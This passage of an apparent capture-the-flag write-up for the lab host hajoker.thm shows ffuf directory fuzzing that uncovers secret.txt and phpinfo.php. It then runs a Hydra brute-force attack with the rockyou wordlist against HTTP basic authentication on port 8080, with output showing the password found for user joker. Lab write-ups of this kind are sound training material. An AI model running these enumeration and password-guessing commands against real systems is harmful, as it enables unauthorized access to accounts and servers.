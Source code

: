 ```shell
 :: Method           : GET
 :: URL              : http://hajoker.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htpasswd.txt           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 45ms]
.htaccess.txt           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 44ms]
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3156ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3163ms]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97, Duration: 4123ms]
.hta.txt                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4160ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4173ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 41ms]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 38ms]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97, Duration: 39ms]
phpinfo.php             [Status: 200, Size: 94854, Words: 4706, Lines: 1160, Duration: 48ms]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7, Duration: 41ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
:: Progress: [9228/9228] :: Job [1/1] :: 998 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

`secret.txt` seems to be the next step.

![image](/images/Pasted image 20221202093049.png)

the content was just a conversation between `joker` and `batman`
so i tried to brute force into the login page. first i checked the request with burp.
the authorization is base64 encoded.

### brute force login page

![image](/images/Pasted image 20221202094518.png)

with hydra i had luck with the username `joker`

```shell
$ hydra -I -t 16 -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f hajoker.thm http-get
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-02 03:38:44
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://hajoker.thm:8080/
[8080][http-get] host: hajoker.thm   login: joker   password: h****h
[STATUS] attack finished for hajoker.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-02 03:39:11
```
